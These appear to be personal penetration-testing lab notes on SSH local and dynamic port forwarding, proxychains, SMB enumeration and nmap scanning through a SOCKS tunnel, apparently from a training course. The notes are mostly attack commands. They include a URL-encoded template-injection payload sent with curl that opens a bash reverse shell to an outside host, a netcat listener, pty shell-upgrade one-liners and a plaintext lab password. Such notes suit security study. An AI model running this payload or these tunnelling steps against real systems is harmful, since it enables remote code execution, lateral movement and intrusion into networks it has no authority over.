 - obtain tty functionality first or it won't work
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -L 0.0.0.0:4455:172.16.234.217:4242 database_admin@10.4.234.215
```

download client
```
find . -name 'client_source*' 2> /dev/null
curl http://192.168.234.63:8090/exercises/ssh_local_client -o ssh_local_client
./ssh_local_client -i 192.168.234.63 -p 4455
```

### Dynamic port forwarding
use socks protocol to access multiple ports from one ssh tunnel
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/4444%200%3E%261%27%29.start%28%29%22%29%7D/
nc -nvlp 4444
```

use ssh to create ssh tunnel (-D = dynamic)
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
ssh -N -D 0.0.0.0:9999 database_admin@10.4.234.215
```

connecto to HRSHARES on 445 via socks proxy
- need proxychains to use socks proxy with smbclient
- Proxychains is a tool that can force network traffic from third party tools over HTTP or SOCKS proxies. 
- As the name suggests, it can also be configured to push traffic over a chain of concurrent proxies.
- works for most dynamically-linked binaries that perform simple network operations. It won't work on statically-linked binaries.
```
tail /etc/proxychains4.conf
socks5 192.168.234.63 9999
```

with config file edited we can preprend the command to our smb command
`proxychains smbclient -L //172.16.234.217/ -U hr_admin --password=Welcome1234`

use nmap TCP-connect scan (-sT), skip DNS resolution (-n), skip the host discovery stage (-Pn) and only check the top 20 ports (--top-ports=20)
```
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.234.217
proxychains nmap -vvv -sT -p4800-4900 -Pn 172.16.234.217
```

```
curl http://192.168.234.63:8090/exercises/ssh_dynamic_client -o ssh_dynamic_client
proxychains ./ssh_dynamic_client -i 172.16.234.217 -p 4872
proxychains nc 172.16.234.217 4872
proxychains nmap -vvv -sT -p4872 -Pn 172.16.234.217
```
